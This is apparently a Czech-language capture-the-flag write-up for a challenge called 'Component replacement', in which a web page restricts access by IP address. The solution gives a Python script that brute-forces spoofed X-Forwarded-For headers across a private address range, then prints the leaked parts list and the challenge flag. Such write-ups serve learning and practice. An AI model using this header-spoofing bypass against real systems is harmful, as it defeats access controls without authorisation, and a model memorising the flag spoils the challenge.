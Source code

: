 # Component replacement

## Zadání

```
Ahoy, officer,

the ship had to lower its speed because of broken fuel efficiency enhancer. To order a correct spare part, the chief engineer needs to know exact identification code of the spare part. However, he cannot access the web page listing all the key components in use. Maybe the problem has to do with recently readdressing of the computers in the engine room - the old address plan for whole ship was based on range 192.168.96.0/20. Your task is to find out the identification code of the broken component.

May you have fair winds and following seas!

The webpage with spare parts listing is available at http://key-parts-list.cns-jv.tcc.

Hint: Try to bypass the IP address filter.
```

## Řešení

Stránka po připojení vrací:

```
You are attempting to access from the IP address 10.200.0.4, which is not assigned to engine room. Access denied.
```

Úloha připomíná [The Geography](/2021-The-Catch/data_extraction/the_geography), kde ale použití HTTP hlavičky `X-Forwarded-For` nebylo zamýšlené řešení. Zkusíme tedy nastavit `X-Forwarded-For` pro daný rozsah IP adres a najít vlajku:

![GPT](gpt.png "ChatGPT-4")

```python
import requests
from ipaddress import ip_network

URL = 'http://key-parts-list.cns-jv.tcc'

def main():
    for ip in ip_network('192.168.96.0/20'):
        headers = {
            'X-Forwarded-For': str(ip)
        }
        
        response = requests.get(URL, headers=headers)
        
        if 'FLAG' in response.text:
            print(response.text)
            exit(0)

    print("FLAG not found.")

if __name__ == '__main__':
    main()
```

```
Spare part;Identification code;In duty
Bubler;PART{SNIg-NYW1-0eSq-vMqO};8
Camshaft;PART{BAym-Fxee-llBO-wRSz};4
Connecting rod;PART{k76T-boGS-Z2s9-BrGa};22
Continuity converter;PART{63Ph-aHXa-MOOf-yzam};4
Crankshaft;PART{ScTp-kzE4-fNed-F9AZ};4
Cylinder head;PART{sHL3-l6pw-sQuw-XVcq};96
Flywheel;PART{Fg4G-UcHw-BKaz-8ozB};12
Fuel efficiency enhancer;FLAG{MN9o-V8Py-mSZV-JkRz};0
Fuel lines;PART{NJu2-Dy2b-001D-dEyn};112
Fuel pump;PART{ymm0-I0FQ-jZ6t-FIZq};8
Rotation accelerator;PART{ZJSD-AdYM-yh3e-pOa0};4
Turbocharger;PART{iHqc-3Od4-1Yuq-jtX0};12
Piston;PART{Bxlj-Ud2U-zNfm-3XGQ};96
Plasma rectifier;PART{pxZ5-QJUJ-dzkr-I5Yt};1
Plunger pump;PART{3C1U-ghSo-euI0-wLi0};4
Self-locking fuel tank;PART{wLyo-Odc9-38IP-zfmT};12
Valve;PART{erre-BopV-7Lrw-xepu};64
```

### Vlajka

```
FLAG{MN9o-V8Py-mSZV-JkRz}
```
